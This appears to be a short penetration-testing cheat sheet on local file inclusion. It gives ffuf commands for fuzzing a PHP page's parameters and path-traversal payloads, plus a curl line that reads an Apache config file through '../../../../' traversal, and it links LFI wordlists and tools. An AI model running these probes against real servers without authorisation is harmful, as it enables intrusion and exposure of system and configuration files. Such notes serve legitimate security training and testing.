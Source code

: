 # Fuzzing Parameters
1. Scan for parameters

[Common LFI parameters](https://book.hacktricks.xyz/pentesting-web/file-inclusion#top-25-parameters)

```
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287

```

2. Scan for LFI
[Common LFI Word List](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)

```shell-session
ffuf -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287

```

# Fuzzing Server Files

## Server Webroot
[Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt)
[Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt)

Tips
	Add few ../../../

```shell-session
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287
```

## Server Logs/ Configurations
[Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux)
[Windows](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows)
[SecLists-Jhaddix](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt)
```shell-session
ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287


curl http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/apache2/apache2.conf

```

# Tools
[LFISuite](https://github.com/D35m0nd142/LFISuite)
[LFiFreak](https://github.com/OsandaMalith/LFiFreak)
[liffy](https://github.com/mzfr/liffy)

